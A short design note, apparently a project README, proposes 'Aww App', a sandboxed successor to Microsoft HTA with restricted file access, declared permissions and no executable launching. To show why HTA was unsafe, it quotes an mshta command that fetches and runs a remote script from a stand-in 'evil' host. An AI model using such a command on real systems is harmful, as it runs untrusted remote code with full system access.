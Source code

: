 ## Aww app design considerations



Aww App is a tool, similar to Microsoft HTA (HTML Application). Which allows to write simple apps in HTML and JScript and VBScript and execute them to perform some admin actions... on... local server... local company Active Directory/Domain Server. These applications not only had full access to all system configuration, but also... this was very convenient, you could run HTA from web... like mshta http://example.com/evil.hta

That mode had tiny security issues. Tiny, because there were no security there, so the technology got deprecated. 

Sad... that was a really cool idea to provide a GUI alternative for admin scripts. 

## aww app

Probably should not allow doing some harmful things for the app... 

And it should be more advanced then a regular local html file. Something in the middle between HTA Superpowers and restricted local HTML. 

What I think it should have: 

- managed and restricted file access, for instance, the application can read files only from specific folder. 
- explicit permissions, defined in appmanifest.json
- the app should not be able to harm the system: run executables, overload CPU, overflow disk with garbage. 

We may allows Open file and Save file triggered by user interactions, and it should be explicit which files the app reads and writes. 

 





 

